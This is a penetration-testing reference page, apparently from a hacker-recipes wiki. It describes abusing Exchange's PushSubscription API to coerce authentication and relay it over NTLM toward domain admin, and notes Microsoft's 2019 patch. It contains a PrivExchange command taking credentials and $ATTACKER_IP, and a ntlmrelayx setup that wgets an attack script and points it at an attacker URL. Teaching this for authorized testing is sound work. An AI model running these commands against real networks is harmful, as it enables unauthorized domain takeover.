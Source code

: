 ```yaml
---
authors: ShutdownRepo
category: ad
---
```


# PushSubscription abuse

## Theory

"PushSubscription" is an API on Exchange Web Services that allows to subscribe to push notifications. Attackers abuse it to make Exchange servers authenticate to a target of their choosing. The coerced authentication is made over HTTP, which is particularly powerful when doing [NTLM relay](../ntlm/relay.md) ([because of the Session Signing and MIC mitigations](../ntlm/relay.md#mic-message-integrity-code)). As Exchange servers usually have high privileges in a domain (i.e. `WriteDacl`, see [Abusing ACLs](../dacl/)), the forced authentication can then be relayed and abused to obtain domain admin privileges (see [NTLM Relay](../ntlm/relay.md) and [Kerberos Unconstrained Delegations](../kerberos/delegations/#unconstrained-delegations-kud)).

## Practice

[PrivExchange](https://github.com/dirkjanm/privexchange/) (Python) is a tool able to log in on Exchange Web Services and call that API.

```bash
privexchange.py -d $DOMAIN -u '$DOMAIN_USER' -p '$PASSWORD' -ah $ATTACKER_IP $EXCHANGE_SERVER_TARGET
```

> [!TIP]
> In the situation where the tester doesn't have any credentials, it is still possible to [relay an authentication](../ntlm/relay.md) to make the API call.
> 
> The modified [httpattack.py](https://github.com/dirkjanm/PrivExchange/blob/master/httpattack.py) can be used with ntlmrelayx.py to perform this attack. The attacker host needs to be modified in the script since it is hard-coded.
> 
> ```bash
> cd /PATH/TO/impacket/impacket/examples/ntlmrelayx/attacks/httpattack.py
> mv httpattack.py httpattack.py.old
> wget https://raw.githubusercontent.com/dirkjanm/PrivExchange/master/httpattack.py
> sed -i 's/attacker_url = .*$/attacker_url = "$ATTACKER_URL"/' httpattack.py
> cd /PATH/TO/impacket
> pip3 install .
> ntlmrelayx.py -t https://exchange.server.EWS/Exchange.asmx
> ```

> [!NOTE]
> On February 12th 2019, Microsoft released updates for Exchange which resolved
> 
> * the coerced authentication issue
> * the fact that Exchange servers had overkill permissions leading attacker to a full domain compromission.

## Resources

[https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)